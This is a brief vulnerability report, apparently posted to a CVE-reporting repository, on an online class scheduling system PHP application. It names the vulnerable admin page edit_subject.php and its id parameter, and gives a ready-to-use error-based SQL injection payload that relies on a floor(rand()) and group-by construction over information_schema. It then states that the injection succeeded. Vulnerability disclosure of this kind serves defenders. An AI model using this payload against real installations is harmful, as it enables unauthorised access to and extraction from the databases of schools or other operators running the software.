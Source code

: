 BUG_Author：zhulielie

Vulnerability File: /online_class_scheduling_system/admin/edit_subject.php

Vulnerability location: /online_class_scheduling_system/admin/edit_subject.php?id

Payload: id=23' and (select 1 from(select count(*),concat(0x71727374,(select (elt(333=333,1))),0x65666768,floor(rand(0)*2))x from information_schema.plugins group by x)x) and 'b'='b

Error-based SQL injection is successful, proving the existence of SQL injection vulnerabilities

![image](https://github.com/zhulielie/CVEReport/blob/main/sql.png)
